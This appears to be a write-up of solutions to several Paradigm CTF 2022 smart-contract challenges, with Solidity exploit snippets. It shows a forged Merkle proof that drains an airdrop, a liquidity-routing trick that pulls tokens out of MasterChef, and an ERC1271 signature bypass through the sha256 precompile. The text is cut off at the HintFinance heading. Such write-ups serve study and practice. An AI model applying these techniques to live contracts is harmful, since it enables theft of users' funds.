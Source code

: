 # Paradigm CTF 2022

Some challenges are slightly modified to run locally. Using [forge](https://github.com/foundry-rs/foundry) to run scripts.

```bash
forge script script/Random.s.sol
```

**Table of Contents**
- [RANDOM](#random)
- [MERKLEDROP](#merkledrop)
- [RESCUE](#rescue)
- [SOURCECODE](#sourcecode)
- [VANITY](#vanity)
- [HINTFINANCE](#hintfinance)

## Random

simple task. The meme comes from https://youtu.be/LP1t_pzxKyE?t=251

## MerkleDrop

This task requires you to claim all tokens from a merkle airdrop contract without claiming all the valid indices.

```solidity
function claim(uint256 index, address account, uint96 amount, bytes32[] memory merkleProof) external {
    require(!isClaimed(index), 'MerkleDistributor: Drop already claimed.');
    
    // Verify the merkle proof.
    bytes32 node = keccak256(abi.encodePacked(index, account, amount));
    require(MerkleProof.verify(merkleProof, merkleRoot, node), 'MerkleDistributor: Invalid proof.');
    
    // Mark it claimed and send the token.
    _setClaimed(index);
    require(ERC20Like(token).transfer(account, amount), 'MerkleDistributor: Transfer failed.');
    
    emit Claimed(index, account, amount);
}
```

`claim` from `MerkleDistributor`. `amount` is using type `uint96`, the payload for `claim` happens to be
256+160+96=512. This fits two leafs for the merkle proof. We can use the first two from any intermediate state when constructing the merkle proof.

Example of claiming index 0 with intermediate state.

```solidity
function tryIndex0() public {
    bytes32[] memory proofs = new bytes32[](6);
    proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a;
    proofs[1] = 0x0ae01ec0f7a50774e0c1ad35f0f5efcc14c376f675704a6212b483bfbf742a69;
    proofs[2] = 0x3f267b524a6acda73b1d3e54777f40b188c66a14a090cd142a7ec48b13422298;
    proofs[3] = 0xe2eae0dabf8d82b313729f55298625b7ac9ba0f12e408529bae4a2ce405e7d5f;
    proofs[4] = 0x01cf774c22de70195c31bde82dc3ec94807e4e4e01a42aca6d5adccafe09510e;
    proofs[5] = 0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5;
    dist.claim(0, 0x00E21E550021Af51258060A0E18148e36607C9df, 0x09906894166afcc878, proofs);

    // claim(uint256 index, address account, uint96 amount, bytes32[] proofs)
    bytes32 node = keccak256(abi.encodePacked(uint256(0), address(0x00E21E550021Af51258060A0E18148e36607C9df), uint96(0x09906894166afcc878)));
    emit log_named_bytes32("node", node);
    // node      = 0xa9e8f0fbf0d2911d746500a7786606d3fc80abb68a05f77fb730ded04a951c2d
    // proofs[0] = 0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a
    bytes32[] memory fakeProofs = new bytes32[](5);
    fakeProofs[0] = proofs[1];
    fakeProofs[1] = proofs[2];
    fakeProofs[2] = proofs[3];
    fakeProofs[3] = proofs[4];
    fakeProofs[4] = proofs[5];
    dist.claim(0xa37b8b0377c63d3582581c28a09c10284a03a6c4185dfa5c29e20dbce1a1427a, 0xa9e8F0FBF0d2911d746500A7786606d3fC80abb6, uint96(0x8a05f77fb730ded04a951c2d), fakeProofs);
}
```

We created a simple [script](src/MerkleDrop/findVictim.js) to test every index of the tree. Only two indices is within the valid range.

```
total: 75000
index:19, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
index:37, fakeAmount: 0x00000f40f0c122ae08d2207b=72033.43704913257, fakeAddr: 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, fakeIndex: 0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442
....
index: 8, amount: 2966
....
```

Using index 8 and fake 19/37 will empty the 75000 tokens.

## Rescue

Someone sent WETH to Sushi's MasterChef contract. This task requires us to move the WETH out of the contract.

```solidity
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
    (address lpToken,,,) = masterchef.poolInfo(poolId);
    address tokenOut0 = UniswapV2PairLike(lpToken).token0();
    address tokenOut1 = UniswapV2PairLike(lpToken).token1();

    ERC20Like(tokenIn).approve(address(router), type(uint256).max);
    ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
    ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
    ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

    // swap for both tokens of the lp pool
    _swap(tokenIn, tokenOut0, amountIn / 2);
    _swap(tokenIn, tokenOut1, amountIn / 2);

    // add liquidity and give lp tokens to msg.sender
    _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
}

function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
    (,, uint256 amountOut) = router.addLiquidity(
        token0, 
        token1, 
        ERC20Like(token0).balanceOf(address(this)), 
        ERC20Like(token1).balanceOf(address(this)), 
        0, 
        0, 
        msg.sender, 
        block.timestamp
    );
    require(amountOut >= minAmountOut);
}
```

The idea is to trigger the `_addLiquidity` function when we call `swapTokenForPoolToken`.

* Buy exact `10 ether` amount of `DAI` and transfer to `MasterChef`
* Call `swapTokenForPoolToken` with any other tokens.
* When `MasterChef` calls router.addLiquidity, it tells the pool to take all its tokens, including the initial 10 WETH and DAI we transferred.

## SourceCode

This task requires you to write a [quine](https://en.wikipedia.org/wiki/Quine_(computing)) in EVM assembly.

A typical way to implement is:

```javascript
s = "; console.log('s =', JSON.stringify(s), s)" ; console.log('s =', JSON.stringify(s), s)
```

Similar way to do this in EVM

```
// Part1
PUSH <Part2 CODE>
// Part2
DUP CODE             # memory: CODE:CODE
PUSH <PUSH>          # memory: PUSH:CODE:CODE
RETURN 
```

with some tweaks on code size, the [solution](https://www.evm.codes/playground?unit=Wei&codeType=Mnemonic&code='v7w806011526000526070600e536023600ef3yDUP1~11z~00z~70~0ez8~23~0eyRETURN'~yvwzyMSTOREy%5Cnw%200xvPUSH1%01vwyz~_) is

```
# ---- code -----------                          -------- stack ------  ----- memory ---------
PUSH17 0x806011526000526070600e536023600ef3      # code
DUP1                                             # code code
PUSH1 17                                         # 17 code code
MSTORE                                           # code                 0000 code
PUSH1 0                                          # 0 code               0000 code
MSTORE                                           #                      0000 code code
PUSH1 112                                        # 112 (PUSH17)
PUSH1 14                                         # 14 112
MSTORE8                                          #                      0000 PUSH17 code code
PUSH1 67                                         # 67
PUSH1 14                                         # 14 67
RETURN                                           # returns "PUSH17 code code"                     
```

`0x806011526000526070600e536023600ef3` is compiled from `DUP1 PUSH1 17 MSTORE PUSH1 0 MSTORE PUSH1 112 PUSH1 14
MSTORE8 PUSH1 67 PUSH1 14 RETURN`.

## Vanity

This task requires to either send transaction from a address or a contract which has at least 20 zeros. 
It's impossible to generate an address like that. The only hope is how the contract verify signatures from
other contracts.

```solidity
function isValidSignatureNow(
        address signer,
        bytes32 hash,
        bytes memory signature
    ) internal view returns (bool) {
        (address recovered, ECDSA.RecoverError error) = ECDSA.tryRecover(hash, signature);
        if (error == ECDSA.RecoverError.NoError && recovered == signer) {
            return true;
        }

        (bool success, bytes memory result) = signer.staticcall(
            abi.encodeWithSelector(IERC1271.isValidSignature.selector, hash, signature)
        );
        return (success && result.length == 32 && abi.decode(result, (bytes4)) == IERC1271.isValidSignature.selector);
}
```

As we can't forge a signature for the signer, we failed at `ECDSA.tryRecover` and then the contract will call `signer`
with `isValidSignature`. To pass the test, we need to get 32 bytes in return and the first 4 bytes should match the signature.

To solve the task, we would use the precompiled `sha256` contract [0x0000000000000000000000000000000000000002](https://etherscan.io/address/0x0000000000000000000000000000000000000002)
as it returns 32 bytes and accept any input. All we need to do now is to match the 4 bytes sig. We write a [script](src/Vanity/mining.go)
to brute force `signature` from the input.

```bash
Found collision: 1626ba7e95fed565f4010ab111eb8825524035addedf763b65bd3d1c8ec4e5cd, rand: 74bddd646a036561
```

## HintFinance


  
  
  
